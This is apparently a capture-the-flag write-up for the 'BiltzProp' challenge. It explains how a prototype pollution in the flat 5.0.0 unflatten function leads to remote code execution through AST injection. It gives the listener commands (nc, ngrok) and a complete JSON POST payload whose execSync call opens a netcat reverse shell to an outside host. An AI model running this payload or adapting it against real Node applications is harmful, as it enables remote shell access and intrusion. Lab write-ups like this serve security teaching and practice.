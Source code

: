 # BiltzProp

This challenge contained a Prototype Pollution to RCE via AST Injection.

In the `challenge/routes/index.js` file, we can see the usage of `unflatten` function from `flat` module in the processing of post data of endpoint `/api/submit`. Then from the `package.json` file we can see the `flat` module installed version is `5.0.0` which suffers from a Prototype Pollution vulnerability.

Refer [this](https://blog.p6.is/AST-Injection/) blog post for detailed explanation of this vulnerability.

To exploit this vulnerability and get the flag, we can execute the code(reverse shell) through the POST call "/api/submit". To get request for reverse shell, we can use ngrok to get a public DN and start listening on a port -

```sh
nc -nvlp 36636
```

```sh
ngrok tcp 36636
```

POST call body -

```json
{
	"song.name": "Not Polluting with the boys",
	"__proto__.block": {
		"type": "Text",
		"line": "process.mainModule.require('child_process').execSync(`nc -v <ngrok-DN> <ngrok-port> -e /bin/sh`)"
	}
}
```


Then we get the access to the shell in terminal tab which is listening on the port. Then we can execute command to view the flag file.
